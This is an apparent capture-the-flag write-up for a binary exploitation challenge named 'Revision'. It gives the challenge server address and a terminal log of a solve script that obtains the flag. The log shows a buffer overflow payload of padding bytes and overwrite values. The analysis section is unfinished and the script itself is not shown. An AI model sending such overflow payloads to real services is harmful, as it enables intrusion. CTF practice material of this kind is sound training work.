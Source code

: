 # CHALLENGE_TITLE
Revision

## Category
pwn

# Challenge description

I just want to make that sure you've revised your basics.

The server is listening on
nc revision.challenges.cybersecuritychallenge.be 1337

## Description

Anlyzation -> TODO (gdb, ...)

``` sh
┌──(venv)─(osboxes㉿osboxes)-[~/Desktop/New Folder]
└─$ python fix.py                               
[+] Opening connection to revision.challenges.cybersecuritychallenge.be on port 1337: Done
[*] Switching to interactive mode
Tell me... Have you revised your binary exploitation course?
YOU DID!
Here is your flag :
CSC{n0w_th4t_w4s_EZzz}
AAAAAAAAAAAAAAAAA\xa0\x11\x89\x08AAAAAAAABBBBAAAAﾭ޾\xba\xfe\xca
[*] Got EOF while reading in interactive
$  
```

## Solve script

`Resources/fix.py`

## Flag
`CSC{n0w_th4t_w4s_EZzz}`
